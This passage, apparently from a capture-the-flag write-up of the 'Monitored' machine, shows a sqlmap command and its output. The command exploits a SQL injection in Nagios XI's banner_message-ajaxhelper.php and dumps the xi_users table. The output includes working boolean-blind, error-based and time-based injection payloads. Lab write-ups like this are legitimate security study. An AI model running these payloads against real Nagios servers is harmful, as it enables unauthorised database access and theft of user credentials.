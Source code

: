 We have the `-u` option to the path of the banner as specified in the vulnerability description and the specific data with the `--data` flag. Als specify the cookie found with `--cookie`. Looking at this [blog post](https://support.nagios.com/forum/viewtopic.php?t=65697), it looks like the database is called `nagiosxi` (since he tries to call to the table `nagiosxi.xi_users`) so we'll add `-D nagiosxi` to specify the database and `-T xi_users` to specify the table. Which gives us this command (do not forget the `--dump` in order to dump the database) :

```
kyll@kyll-Latitude-3520:~/Desktop/code_folder/Tools$ python3 sqlmap-dev/sqlmap.py -u "https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php" --data="id=3&action=acknowledge_banner_message" --cookie "nagiosxi=abpl48o1iaju8hk9mch8bdiram" -D nagiosxi -T xi_users --dump
[...]
---
Parameter: id (POST)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (original value)
    Payload: action=acknowledge_banner_message&id=(SELECT (CASE WHEN (5098=5098) THEN 3 ELSE (SELECT 3612 UNION SELECT 4434) END))

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: action=acknowledge_banner_message&id=3 OR (SELECT 6614 FROM(SELECT COUNT(*),CONCAT(0x7170717171,(SELECT (ELT(6614=6614,1))),0x7170717671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)

    Type: time-based blind
    Title: MySQL > 5.0.12 OR time-based blind (heavy query)
    Payload: action=acknowledge_banner_message&id=3 OR 4063=(SELECT COUNT(*) FROM INFORMATION_SCHEMA.COLUMNS A, INFORMATION_SCHEMA.COLUMNS B, INFORMATION_SCHEMA.COLUMNS C WHERE 0 XOR 1)
---
[...]
```

Thank god I did not have to find nor understand the query `action=acknowledge_banner_message&id=3 OR (SELECT 6614 FROM(SELECT COUNT(*),CONCAT(0x7170717171,(SELECT (ELT(6614=6614,1))),0x7170717671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)`.

After that SQLMaps dumps the database :

<img src="/assets/img/MonitoredWriteup/mon5.png" alt="fuck alt attributes" style="float: left; margin-right: 10px;" width="700"/>
